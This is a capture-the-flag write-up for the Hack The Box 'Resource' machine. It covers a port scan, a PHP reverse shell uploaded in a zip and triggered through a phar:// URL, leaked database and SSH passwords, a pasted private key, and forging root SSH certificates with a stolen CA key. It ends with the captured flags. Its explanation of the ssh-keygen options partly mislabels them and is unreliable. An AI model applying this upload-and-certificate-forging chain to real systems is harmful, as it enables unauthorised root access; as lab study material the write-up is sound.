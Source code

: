 ```yaml
---
title: "HTB: Resource Seasonal Machine"
author: "v3l1d"
date: "2024-08-20"
---
```



![](attachment/3bd70dd5104068e4031e06ac1c61711d.png)

**Port Scan**

```
┌──(kali㉿kali)-[~/HTB/Resource]
└─$ cat scan_Complete 
# Nmap 7.94SVN scan initiated Sun Aug 11 14:52:16 2024 as: nmap -sC -sV -A -T4 -Pn -p- -o scan_Complete 10.10.11.27
Nmap scan report for 10.10.11.27
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 11 14:52:32 2024 -- 1 IP address (1 host up) scanned in 15.74 seconds
```

Visit http://itrc.ssg.htb/ 



![](attachment/712ccf9b98e3eb82338f1bcde7b3513e.png)

On this page you can open a ticket uploading a zip file containing a reverse shell script in php. You can exploit phar deserialization to handle the shell generated on revshell generator:

![](attachment/f1f2f21551a2817bed9305cd5d124173.png)

![](attachment/c85cade67bf78fd22ea7ffe4c4886d54.png)


Upload the file on ticket system and open up its page:

![](attachment/f50a4431998e612de3034ff616a90414.png)

```
http://itrc.ssg.htb/?page=phar://uploads/0d327960dcada2c40fb3b5c0cc99154b3963ecd4.zip/<phpfilename>
without php extension
```

```shell
$ cd /var/www
$ ls
html
itrc
$ cd itrc
$ ls
admin.php
api
assets
create_ticket.php
dashboard.php
db.php
filter.inc.php
footer.inc.php
header.inc.php
home.php
index.php
loggedin.php
login.php
logout.php
register.php
savefile.inc.php
ticket.php
ticket_section.inc.php
uploads
$ cat db.php    
<?php
$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}$ 

```

Credentials found here didn't work neither for ssh or others.
This box looks always broken so i decided to look a writeup and found out that should be present a file in /uploads folder of itrc that i don't have:

![](attachment/836cab1aee6922d645e447bf11a51d46.png)

```
Credentials:
msainristil:82yards2closeit
```

![](attachment/334f5c9284c02ea18b054c4959331e94.png)

In the decommisions_old_ca folder there is priv/pub key pair, that we are going to convert into ssh keys.

```
ssh-keygen -t rsa -b 2048 -f keypair
ssh-keygen -s ca-itrc -n zzinter -I kali keypair.pub 
```


![](attachment/865cfe3a7e89dbf3d5425f2b30dc78e3.png)

When i was www-data i noted that was a port listening on 127.0.0.11, this usuaylly means that we are in adocker container, so trough linpeas i  had a tip about this. Then i used deepce and got:

![](attachment/c3bd47cec612c42278a478ca983b2cd1.png)

RABBIT HOLE, try hard on SSH: https://shivamaharjan.medium.com/ssh-cas-and-principals-630a433d76d6

```
ssh-keygen -t ecdsa -C "The CA" -N "" -f root_key
ssh-keygen -s ./ca-itrc -I CA-signing -n msainristil,zzinter,root -V +1w -z 1 ./root_key.pub

Copy with scp generated files and:

──(kali㉿kali)-[~/HTB/Resource]
└─$ ssh -o CertificateFile=root_key-cert.pub -i root_key root@10.10.11.27            
Linux itrc 5.15.0-117-generic #127-Ubuntu SMP Fri Jul 5 20:13:28 UTC 2024 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@itrc:~# ls
```

Even if we logged as root, there's no root flag, so download **sign_key_api.sh** file.

![](attachment/09598aa1ce18ac9b5f233eecf3a06a09.png)

Go back in msainristil SSH:

![](attachment/b4223d8b25ba9e87781b1b3c05157fee.png)


Run these commands to generate ssh keypair again and sign them with **ca-itrc** SSH certificate

```
ssh-keygen -t rsa -b 2048 -f keypair
ssh-keygen -s ca-itrc -I user-cert -n zzinter -V +52w -z 12345 keypair.pub
```

![](attachment/416696f04cb1bbddf329cdb2a8a2cc90.png)

Now copy the files generated in local machine:

```
scp  msainristil@10.10.11.27:/home/msainristil/decommission_old_ca/keypair* 
82yards2closeit
ssh -i keypair zzinter@10.10.11.27
```

![](attachment/922daa0e3bdaddd8a0a3093c42c89b9f.png)

From zzinter ssh scp this file: **sign_key_api.sh** and modify the file with vim appending **zzinter_temp** and **root_user** as are present in ssh_principals of the box. This is visible generating a public cert for support@ssg.

![](attachment/f1ae315604077afbaba6cfce52ee1e7c.png)

Now sign the private key we obtained with the script, generating a certificate signed 

```
┌──(kali㉿kali)-[~/HTB/Resource/zzinter_keys]
└─$ ./sign_key_api.sh keypair.pub zzinter zzinter_temp > zzinter.cert
```

From a writeup (i needed help) i recover this key that we will use a certificate to generate root ssh-key. Pasted it in root_ssh.cert file
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW 
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc 
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ 
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA 
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gSV 
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Then login as root on your kali and sign a the private key using this certificate i provided

```
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub
Signed user key keypair-cert.pub: id "root" serial 1 for root_user valid after 2024-08-13T13:24:56
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -f keypair-cert.pub -e > root_keypair
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh -o CertificateFile=keypair-cert.pub -i keypair root@10.10.11.27 -p 2222

```

```
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair //Extract the pub key from private // OR
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub //Use Directly the pub key
```

This command generates a signed SSH user certificate using the `ssh-keygen` tool. Here's what each option does:

- -s root_ssh.cert`: specifies the CA certificate file to use for signing (not shown in the output, but assumed to exist).
- -z 1`: specifies the serial number of the certificate (in this case, 1).
- `-I root`: specifies the principal identity of the certificate (in this case, "root").
- `-V -1W:forever`: specifies the validity period of the certificate (in this case, forever, starting from the current time).
- `-n root_user`: specifies the username of the certificate (in this case, "root_user").
- `keypair.pub`: specifies the output file for the generated public key.

The resulting certificate is stored in `keypair-cert.pub`.

**Flags**
![](attachment/d9314cee50c28c2118e10e586b1ea6b8.png)


```
user: 98a79086fe46218a7edd6abc87eb54f3
root: 495f767f17cf87214179384c1f145b91
```
